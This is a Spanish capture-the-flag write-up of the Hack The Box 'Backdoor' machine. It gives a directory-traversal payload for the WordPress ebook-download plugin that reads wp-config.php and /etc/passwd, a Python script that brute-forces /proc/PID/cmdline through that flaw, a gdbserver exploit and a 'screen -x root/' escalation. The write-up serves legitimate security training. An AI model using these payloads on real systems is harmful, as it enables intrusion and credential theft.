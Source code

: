 ```yaml
---
layout: single
title: Backdoor - Hack The Box
excerpt: "En esta máquina fácil nos estaremos aprovechando del plugin de WordPress **ebook-download** para explotar un **Local File Inclusion** y así poder descubrir el comando **gdbserver** en la ruta **/proc/**. Después, explotaremos una vulnerabilidad de dicho servicio con la que obtendremos acceso a la maquina víctima. Una vez dentro, encontraremos una sesión de screen **activa** y al conectarnos estaremos como root"
date: 2023-01-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-backdoor/backdoor_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Linux
  - Wordpress
  - Local File Inclusion
  - Scripting en python
  - gdbserver exploit
  - Sesión con screen
---
```


![](/assets/images/htb-writeup-backdoor/backdoor_logo.png)

# Enumeración
Puertos abiertos:
![](/assets/images/htb-writeup-backdoor/escaner_nmap_backdoor.png)

Al hacer click en **Home** vemos que nos redirige a **backdoor.htb** por lo que tendremos que añadir esa ruta en el **/etc/hosts**. Esto nos puede hacer pensar que hay más subdominios pero si hacemos un escaneo nos daremos cuenta de que no encontramos ninguno.

Al tratarse de un **Wordpress** debemos echarle un ojo a la ruta **/wp-content/plugins/** que es donde residen los plugins y de los cuales nos podemos aprovechar para encontrar vulnerabilidades.
![](/assets/images/htb-writeup-backdoor/wordpress_plugins_backdoor.png)
<br>Tenemos capacidad de **Directory Listing**, esto es una gran noticia ya que nos facilita mucho la tarea. Encontramos el plugin de **ebook-download** y si miramos el **readme.txt** podemos encontrar la versión que se está utilizando.
![](/assets/images/htb-writeup-backdoor/version_ebook_download.png)
<br>Realizando una rápida búsqueda con **searchsploit** nos damos cuenta de que hay un **Directory Traversal** asociado a este plugin el cual nos va a permitir realizar un **Local File Inclusion**.
![](/assets/images/htb-writeup-backdoor/searchsploit_ebook_download.png)
**PoC:** /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

Con esto podemos leer el **/etc/passwd** y darnos cuenta de que existe el usuario **user** pero si intentamos leer la **id_rsa** en la ruta **/home/user/.ssh/id_rsa** no obtendremos nada. Otra cosa que podriamos realizar es leer el **/etc/hosts** para ver si tiene algún subdominio que no hayamos detectado en un primer momento pero no obtendremos gran cosa. Después de probar con varias rutas más encontramos **/proc** pero, ¿Para que se usa esta ruta?

Cuando nosotros ejecutamos un proceso, por ejemplo: **nc -lvnp 4444**<br>
Y posteriormente lo ponemos en segundo plano con: **ctrl + z** y listamos su **PID** con ps.<br>
El comando se guardará en la ruta **/proc/PID/cmdline** y podremos leerlo. Por lo que sería una idea interesante **aplicar un ataque de fuerza bruta a esas rutas** para ello crearemos el siguiente script en python3:
```python
#!/usr/bin/python3

import requests, signal, sys, pdb, time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo.....\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

main_url="http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def bruteForce():

    p1 = log.progress("Iniciando fuerza bruta: ")
    p1.status("Empezando ataque de fuerza bruta: ")
    
    time.sleep(5)
    for i in range(0,10000):
        
        p1.status("Probando con la ruta: /proc/%s/cmdline " % str(i))

        full_url = main_url + "/proc/" + str(i) + "/cmdline"
        r = requests.get(full_url)
        if len(r.content) > 82:
            print("-----------------------------------------------------------------------------------")
            log.info("Ruta: /proc/%s/cmdline" % str(i))
            log.info("Longitud total: %s" % len(r.content))
            output = r.text.replace('/proc/'+str(i)+'/cmdline','').replace('<script>window.close()</script>','').replace('\x00','')
            log.info(output)
            print("-----------------------------------------------------------------------------------")

if __name__ == '__main__':
    
    bruteForce()

```
Gracias a esto encontraremos la siguiente información:
![](/assets/images/htb-writeup-backdoor/brute_force_information.png)
## Explotación de gdbserver
### ¿Qué es gdbserver?
Es un programa informático usado para la depuración remota de otros programas. Se ejecuta en el mismo sistema que el programa que se va a depurar, esto permite que el programa **(GDB)** se conecte desde otro sistema, es decir, sólo es necesario que el ejecutable a depuerar resida en el sistema destino **"target"**, mientras que el código fuente y una copia del archivo binario a depurar residen en el ordenador local del desarrollador **"host"**. La conexión puede ser TCP o una línea de serie.
### ¿Cómo lo explotamos?
Detectamos que **gdbserver** esta gestionando el puerto **1337**. Buscando vulnerabilidades de gdbserver con **searchsploit** encontraremos una. El funcionamiento del exploit sería el siguiente:
![](/assets/images/htb-writeup-backdoor/uso_del_exploit.png)
<br>Por lo que siguiendo esos pasos lograriamos entrar en la máquina Backdoor como el usuario **user**
![](/assets/images/htb-writeup-backdoor/exploit_funcionando.png)
## Escalada de Privilegios 
Antes, al hacer el ataque de fuerza bruta hemos detectado otro proceso relacionado con **screen**. Lo podiamos haber descubierto tambien con **pspy:** [Descargar pspy:](https://github.com/DominicBreuker/pspy) 
![](/assets/images/htb-writeup-backdoor/escaner_pspy.png)
<br>**¿Qué es el comando screen?**
<br>El comando screen es una herramienta de terminal que permite crear y controlar múltiples sesiones de terminal en una sola terminal. Es muy parecida a **tmux**.<br>
La linea de comandos que se esta ejecutando quiere decir que si la ruta **/var/run/screen/S-root/** está vacía se va a ejecutar una sesión con screen llamada root.<br>
Por lo que podriamos conectarnos a esa sesión con el siguiente comando:
```bash
screen -x root/
```
Importante poner la / del final. Destacar también que las sesiones activas se guardan en la ruta **/run/screen/S-{nombre_usuario}**.

Hecho esto habriamos entrado a esa sesión como **root** y tendriamos control total sobre la máquina **Backdoor**

